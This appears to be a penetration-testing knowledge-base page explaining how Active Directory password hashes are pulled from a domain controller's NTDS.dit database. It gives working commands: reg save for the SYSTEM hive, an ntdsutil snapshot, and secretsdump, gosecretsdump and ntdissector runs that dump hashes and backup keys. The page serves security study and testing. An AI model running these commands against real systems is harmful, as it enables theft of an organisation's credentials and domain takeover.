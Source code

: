 ```yaml
---
icon: user-secret
---
```


# NTDS Secret Extraction

## Theory

### NTDS Secret

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/password-spraying), [stuffing](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/stuffing), [shuffling](https://www.thehacker.recipes/a-d/movement/credentials/shuffling), [cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking), [pass-the-hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth), [overpass-the-hash](https://www.thehacker.recipes/a-d/movement/kerberos/ptk) or [silver or golden tickets](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets).



***

## Practical

### Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD Maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="info" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Secrets Dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

#### [Impackt's Secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```
./secretsdump.py -ntds ~/Downloads/regbackup/ntds.dit -system ~/Downloads/regback/SYSTEM LOCAL
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Impacket's Secretsdump Output</p></figcaption></figure>

#### [Ntdissector](https://github.com/synacktiv/ntdissector)

```
# Dump users, groups and domain backup keys
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f user,group,secret

# Dump all records from the database
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f all
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Ntdissector's Output</p></figcaption></figure>

***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds](https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds)
* [https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
* [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
* [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

